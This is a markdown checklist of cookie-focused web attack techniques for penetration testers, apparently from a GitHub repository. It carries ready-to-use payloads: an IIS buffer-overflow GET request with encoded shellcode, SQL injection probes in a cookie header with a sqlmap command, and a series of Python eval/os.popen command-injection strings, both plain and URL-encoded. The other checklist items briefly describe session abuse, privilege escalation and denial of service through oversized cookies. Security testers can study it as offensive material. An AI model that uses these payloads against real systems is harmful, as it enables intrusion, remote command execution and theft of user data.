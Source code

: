 [ ] sensetive Data Stored in Cookies
```
check if anf pii or other sensitive infromation stored in  cookies this in fromation usually includes : email,sessionID, data of birth ,mobile address ,ssn ,etc.
```

[ ] cookie length violation 
leads to Buffer Overflow : A cookie length which is longer than profiled length can indicate that a buffer overflow attack attempt takes place. In a buffer overflow attack, the attacker will have to send very long strings that will generate the overflow, all of them generating this Violation.

```
GET  /default.ida?NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN

NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN

NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN

NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN%u9090%u6858%ucbd3%u7801%u9090%u6858%ucbd3%u7801%u9090%u6858%ucbd3%u7801%u9090%u9090%u8190%u00c3%u0003%u8b00%u531 b%u53ff%u0078%u0000%u00=a
```

[ ] Arbitrary Cookie injection
```
try injecting some arbitrary cookies using attack such as CRLF injection ,
some times it can be used to escalate privilege or if the application malfunction, it can reveal sensitive infromation through stack traces
```

[ ] Mass Assignment
```
similar to the parameter poolution, however in this , attacker tried to inject multiple user ID in same user_id  parameter
```

[ ] Damial of service - cookie Bomb
```
forcing the server to process cookies larger than the resricted cookie size defined by the server may cause danial of service attack 

https://target.com/index.php?param1=xxxxxxxxxxxxxxxxxxxxxx

After input "xxxxxxxxxxxxxxxxxxxxxx" as a value of param1, check your cookies. If there is cookies the value is "xxxxxxxxxxxxxxxxxxxxxx" it means the website is vulnerable

References: [Hackerone #105363](https://hackerone.com/reports/105363)

```

[ ] SQL injection
```
How to inject the code in Cookies?
There are many HTTP interceptors and HTTP editors that can intercept the HTTP request before it is sent to the server. Then the tester can introduce his malicious SQL statement in the cookie field.

It’s like a get/post based SQL Injection, except that certain characters can’t be used. For example, ‘**;**‘ and ‘**,**‘ are typically treated as delimiters, so they end the injection if they aren’t URL-encoded.

Cookie : sessionId=xxxbad1fdc’ order by 1# (Normal)_
Cookie : sessionId=xxxbad1fdc’ order by 2# (Error)_

after error 
sqlmap -u "" --cookie="" -p "" --dbs
```

[ ] parameter pollution
```
1. Assume that cookie utilize a parameter called **user_id=** to rerieve some data
2. however , the application is not vulnerability to idor and change **user_id** to victim value dosnt help you 
3.attacker ,add an addition another  **user_id=** parameter value to rhe cookie with vuctim user ID LIke: **user_id=atacker&user_id=victim**
4. Three things can happen here:
- the application may retrieve data of victim data
- the application may retrieve data of victim data and attacker data
- the application is not retrieve data it is not vulnerability
```

[ ] Authentication Bybass (cookie are not avalid)
```
try accessing a protected resource by removing cookies
```

[ ] xss
```
assume that the value of the cookie parameter "name" is reflected in the application
change the "name" value to "xss payload"
```

[ ] Insufficient session management
```
1. session doesnt expire on logout 
2. long session expirey
3. session doesnt expire on password reset /change
4. concurrent session
```

[ ] privilege escalation
- horizontal
```
1.assume that the application uses mult-organization models
2.cookie are used wich organized user can access
3.alter the cookie in order to access some other application
```
- vertical
```
1.assume the cookie are used to determine the role of the user
2.alter the cookie in order to elevate the role of the user
```
- similarly
```
1.try if the flower users cookies can be used to access higher users function 
2.try if the cookie of organization 1 user van be used to access function of organizaion 2
```

[ ] sesion puzzing
```
when an application utilzes the same session variable for multiple purposes , this can abused by an attacker to trick the application and perform the action as an authenticated or privileged user
```



[ ] Exploiting Python Code Injection
this payload in cookie or contenttype or path or parameter

```python
eval(compile('for x in range(1):\n import time\n time.sleep(20)','a','single'))
```

[ ] OS command injection

```python
**eval(compile("""for x in range(1):\\n import os\\n os.popen(r'COMMAND').read()""",'','single'))**
```

```python
eval(compile("""__import__('os').popen(r'COMMAND').read()""",'','single'))
```

```python
**__import__('os').popen('COMMAND').read()**
```

[ ] URL encode some characters
```python
param=eval%28compile%28%27for%20x%20in%20range%281%29%3A%0A%20import%20time%0A%20time.sleep%2820%29%27%2C%27a%27%2C%27single%27%29%29
```

```python
param=eval%28compile%28%22%22%22for%20x%20in%20range%281%29%3A%5Cn%20import%20os%5Cn%20os.popen%28r%27COMMAND%27%29.read%28%29%22%22%22%2C%27%27%2C%27single%27%29%29
```

```python
param=eval%28compile%28%22%22%22__import__%28%27os%27%29.popen%28r%27COMMAND%27%29.read%28%29%22%22%22%2C%27%27%2C%27single%27%29%29
```

```python
param=__import__%28%27os%27%29.popen%28%27COMMAND%27%29.read%28%29
```

Example with one expression
```python
__import__('os').popen('COMMAND').read()
```

Example with multiple expressions, separated by commas
```python
str("-"*50),__import__('os').popen('COMMAND').read()
```
[ ] Insecure Deserialization
```
 if cookis are using serialized Objects ,try performing insecure Deserialization Checks.
 portswigger laps
```
[ ] Electronic Code Book                                                                                                                                   
[ ] Pickle Code Execution                                                                                                                                   
[ ] Cipher block chainin                                                                                                                                   
[ ] file inclusion                                                                                                                                         
[ ] IDOr                                                                                                                                                   
[ ] session fixation                                                                                                                                       
[ ] padding oracle attack                                                                                                                                   
[ ] jwt attack                                                                                                                                               
